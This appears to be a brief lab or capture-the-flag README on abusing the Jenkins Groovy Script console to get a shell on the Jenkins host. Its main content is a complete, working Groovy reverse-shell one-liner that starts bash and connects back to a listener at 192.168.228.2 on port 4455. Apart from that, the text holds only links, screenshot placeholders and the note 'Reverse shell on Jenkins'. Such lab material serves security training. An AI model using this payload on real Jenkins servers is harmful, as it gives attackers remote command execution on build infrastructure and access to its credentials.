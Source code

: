 # jenkins-abusing-groovy-script-console

#### Objective: Abuse Groovy Script console to get a shell on the Jenkins machine!

----

- [Jenkins](http://jenkins:8080/)
- [Gitlab](http://gitlab/root)
- [frohoff/revsh.groovy](https://gist.github.com/frohoff/fed1ffaab9b9beeb1c76)

----

```sh
String host="192.168.228.2";
int port=4455;
String cmd="bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

----

![](images/1.png)

![](images/2.png)

![](images/3.png)

![](images/4.png)

![](images/5.png)

----

#### Lessons learnt

- Reverse shell on Jenkins

----

EOF